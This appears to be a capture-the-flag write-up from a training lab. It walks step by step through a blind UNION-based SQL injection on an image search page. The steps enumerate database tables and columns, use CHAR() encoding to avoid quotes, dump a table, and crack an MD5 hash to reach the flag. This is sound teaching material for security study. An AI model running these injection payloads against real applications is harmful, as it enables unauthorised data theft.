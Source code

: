 # Breach: SQL injection avancee


<br>

### >> [Flag file](../flag) <<

<br>


## Explanation:

It will be similar to the basic SQL injection,<br>
so refer to the [SQL injection basic](/SQL%20injection%20basic/Ressources/Readme.md) breach for more information.

The only things that make it "avancee" are :
1. There is no output when there is an error in the SQL query.
2. The 2 outputs are switched.


#### Step 1:

- Go to the search image page


#### Step 2:

Let's explore the database !

- List all the tables in the database:
```sql
999 UNION SELECT TABLE_SCHEMA, TABLE_NAME FROM INFORMATION_SCHEMA.TABLES
```


#### Step 3:

The table `list_images` looks interesting, let's see what's inside...

- Translate `list_images` and `Member_images` to their ASCII values:
```sql
CHAR(108, 105, 115, 116, 95, 105, 109, 97, 103, 101, 115)
CHAR(77, 101, 109, 98, 101, 114, 95, 105, 109, 97, 103, 101, 115)
```

- List all the columns in the `list_images` table:
```sql
999 UNION SELECT COLUMN_NAME, COLUMN_TYPE FROM INFORMATION_SCHEMA.COLUMNS
WHERE TABLE_SCHEMA=CHAR(77, 101, 109, 98, 101, 114, 95, 105, 109, 97, 103, 101, 115)
AND TABLE_NAME=CHAR(108, 105, 115, 116, 95, 105, 109, 97, 103, 101, 115)
```

> It gives us the culumns:
> | COLUMN_NAME | COLUMN_TYPE  |
> | ----------: | :----------- |
> | id          | int(11)      |
> | url         | varchar(40)  |
> | title       | varchar(25)  |
> | comment     | varchar(255) |


#### Step 4:

Now we can get the flag from the `list_images` table.

- List everthing:
```sql
999 UNION SELECT id, url FROM list_images
UNION SELECT id, title FROM list_images
UNION SELECT id, comment FROM list_images
```

> It gives us:
> | id  | url                                      | title     | comment                                                                                                               |
> | :-: | :--------------------------------------- | :-------- | :-------------------------------------------------------------------------------------------------------------------- |
> | 1   | https://fr.wikipedia.org/wiki/Programme_ | Nsa       | An image about the NSA !                                                                                              |
> | 2   | https://fr.wikipedia.org/wiki/Fichier:42 | 42 !      | There is a number..                                                                                                   |
> | 3   | https://fr.wikipedia.org/wiki/Logo_de_Go | Google    | Google it !                                                                                                           |
> | 4   | https://en.wikipedia.org/wiki/Earth#/med | Earth     | Earth!                                                                                                                |
> | 5   | borntosec.ddns.net/images.png            | Hack me ? | If you read this just use this md5 decode lowercase then sha256 to win this flag ! : 1928e8083cf461a51303633093573c46 |


#### Step 5:

- Decrypt the password (md5 lookup): `1928e8083cf461a51303633093573c46` -> `albatroz`

- Lower all the characters: `albatroz` -> `albatroz` (no change)

- Sha256 on it: `albatroz` -> `f2a29020ef3132e01dd61df97fd33ec8d7fcd1388cc9601e7db691d17d4d6188`


---

[[Back to main page](/#darkly)]
